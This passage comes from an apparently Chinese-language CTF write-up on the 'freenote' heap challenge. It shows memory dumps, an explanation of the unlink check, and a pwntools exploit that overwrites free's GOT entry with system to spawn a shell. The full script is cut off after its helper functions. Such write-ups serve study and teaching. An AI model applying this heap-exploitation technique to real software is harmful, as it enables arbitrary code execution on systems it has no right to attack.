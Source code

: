 ```python
#0x962960:	0x4141414141414141	0x4141414141414141
#-----------------------------------------------------
```
**简单说明:**
```
0x962940 - 0x110 = 0x962830,　 //找到前一个chunk
0x962830 + 0x50 = [0x962880]  //验证是否相等, 不相等直接报错

[fd + 0x18] = bk
[bk + 0x10] = fd
结果是
-----------------------------
0x961010:	0x0000000000000100	0x0000000000000001
0x961020:	0x0000000000000001	0x0000000000000060
0x961030:	0x0000000000961018(可控区域)	0x0000000000000001
0x961040:	0x0000000000000180	0x00000000009628c0
-----------------------------
```
**3. modify**
```python
free_got = elf.got['free']
system = libcbase + libc.sysbols['system']

payload03 = p64(8) + p64(0x1) + p64(0x8) + p64(free_got) + "A" * 0x40
payload04 = p64(system)

edit(0, 0x60, payload03)
edit(0, 0x8, payload04)

payload05 = "/bin/sh\x00"
new(len(payload05), payload05)
delete(4)
```

### 完整EXP
```python
from pwn import *

p = process("./freenote")
elf = ELF("./freenote")
libc = ELF("./libc.so.6")
context.log_level = 'debug'

def list():
    p.recvuntil("Your choice: ")
    p.sendline("1")

def new(length, note):
    p.recvuntil("Your choice: ")
    p.sendline("2")
    p.recvuntil("new note: ")
    p.sendline(str(length))
    p.recvuntil("note: ")
    p.send(note)

def edit(index, length, note):
    p.recvuntil("Your choice: ")
    p.sendline("3")
    p.recvuntil("Note number: ")
    p.sendline(str(index))
    p.recvuntil("Length of note: ")
    p.sendline(str(length))
    p.recvuntil("Enter your note: ")
    p.send(note)
```
